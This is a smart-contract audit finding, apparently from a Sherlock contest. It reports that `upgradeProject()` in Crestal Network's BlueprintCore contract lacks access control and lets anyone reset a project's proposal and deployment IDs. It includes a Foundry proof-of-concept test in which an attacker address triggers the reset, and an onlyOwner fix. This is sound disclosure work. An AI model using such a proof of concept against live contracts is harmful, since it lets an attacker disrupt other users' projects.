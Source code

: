 Active Cloth Tortoise

Medium

# An attacker can call `upgradeProject()` and reset the `requestProposalID` to 0 enabling calling again `proposalRequest()`

### Summary

The `upgradeProject()` function has no access control and allows resetting the following fields to zero: 
`requestProposalID`, `requestDeploymentID`, `proposedSolverAddr`. 

The internal function `proposalRequest()` uses the `requestProposalID` to verify that the project has no active `requestProposalID`. 

By calling `upgradeProject()` an attacker can overwrite the `projects[projectId].requestProposalID`. 

### Root Cause

The function `upgradeProject()` has no access control:

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198C14-L198C28


### Internal Pre-conditions

1. A user creates an agent or a project with any function like `createProjectIDAndProposalRequest()` or `createAgentWithToken()`. 
2. This creates a project with a `projectId`, 

### External Pre-conditions

-

### Attack Path

Any attacker can call `upgradeProject()` at any time. 

### Impact

The `requestProposalID`, `requestDeploymentID` and `proposedSolverAddr` are erased and set to 0.

### PoC

Add this test to the end of `test/BlueprintV5.t.sol`

```solidity
    function test_upgradeProject() public {
        address attacker = makeAddr("attacker");

        blueprint.addPaymentAddress(address(mockToken));
        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;
        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);
        mockToken.mint(address(this), validTokenAmount);
        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);
        // create agent with token and non zero cost
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
        
        vm.prank(attacker);
        blueprint.upgradeProject(projectId);
        
        // proposalId has been wiped out
        (, bytes32 requestProposalId, ) = blueprint.getProjectInfo(projectId);
        assertEq(requestProposalId, bytes32(0));   
    }
```


### Mitigation

Only admin should be allowed to upgrade a project. 

```diff
    function upgradeProject(bytes32 projectId) public hasProject(projectId) onlyOwner {
        // reset project info
        projects[projectId].requestProposalID = 0;
        projects[projectId].requestDeploymentID = 0;
        projects[projectId].proposedSolverAddr = dummyAddress;
    }
```
